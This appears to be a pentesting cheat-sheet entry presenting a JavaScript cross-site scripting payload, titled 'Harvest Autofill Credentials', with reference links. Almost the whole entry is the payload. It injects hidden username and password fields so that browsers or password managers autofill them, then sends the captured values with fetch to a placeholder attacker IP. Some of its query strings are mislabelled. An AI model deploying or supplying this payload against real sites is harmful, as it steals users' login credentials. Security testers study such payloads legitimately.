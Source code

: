 # Harvest Autofill Credentials

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

```js
let body = document.querySelector('body');

// Fetch the credentials from input attributes
let username = document.createElement('input');
username.type = "text";
username.name = "username";
username.style.position = "fixed";

let password = document.createElement('input');
password.type = "password";
password.name = "password";
password.style.position = "fixed";

// Append element attributes
body.append(username);
body.append(password);

// Track values with event handlers
username.addEventListener('change', sendUsername);
password.addEventListener('change', sendPassword);

// Sending credentials to the attacker's server
function sendUsername() {
	fetch(`http[s]://<IP>/creds?=username=${username.value}`);
}

function sendPassword() {
	fetch(`http[s]://<IP>/creds?=username=${password.value}`);
}
```

---
## References

- [IMVK: Cross Site Scripting – Exploitation ](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

- [ancat: Stealing From Password Managers with XSS](https://ancat.github.io/xss/2017/01/08/stealing-plaintext-passwords.html)

- [XSS-Autofil](https://github.com/davidgilbertson/xss-autofil/blob/master/public/xss.js)